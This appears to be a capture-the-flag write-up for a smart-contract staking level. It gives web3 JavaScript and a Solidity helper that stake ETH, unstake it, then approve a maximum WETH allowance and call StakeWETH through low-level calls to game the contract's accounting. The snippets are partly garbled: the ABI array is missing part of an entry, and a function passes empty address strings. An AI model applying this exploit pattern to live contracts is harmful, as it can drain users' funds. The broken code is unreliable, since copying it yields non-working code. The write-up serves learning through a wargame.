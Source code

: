 ## Description
Made myself a Stacker because the call will continue to be made from the contract, so that msg.sender would be mine and not the contract's. 
```
const abi = [
	{
		"inputs": [],
		"name": "StakeETH",
		"outputs": [],
		"stateMutability": "payable",
		"type": "function"
	},
		"name": "Unstake",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	}
];

const MyContract = new web3.eth.Contract(abi, contract.address);
await MyContract.methods.StakeETH().send({from:player, value: toWei("0.002")})
await MyContract.methods.Unstake(toWei('0.002')).send({from:player})
```
The next step is to approve and call StakeWETH.
```
function check()public payable {
        bytes memory data = abi.encodeWithSignature("allowance(address,address)","","");
        bytes memory data2 = abi.encodeWithSignature("approve(address,uint256)","","");
        console.logBytes(data2);
    }

    function approve()public {
        uint256 amount = type(uint64).max;
        WETH.call(abi.encodeWithSelector(0x095ea7b3, address(stake),amount));
        (address(stake)).call(abi.encodeWithSignature("StakeWETH(uint256)", amount));
    }
```

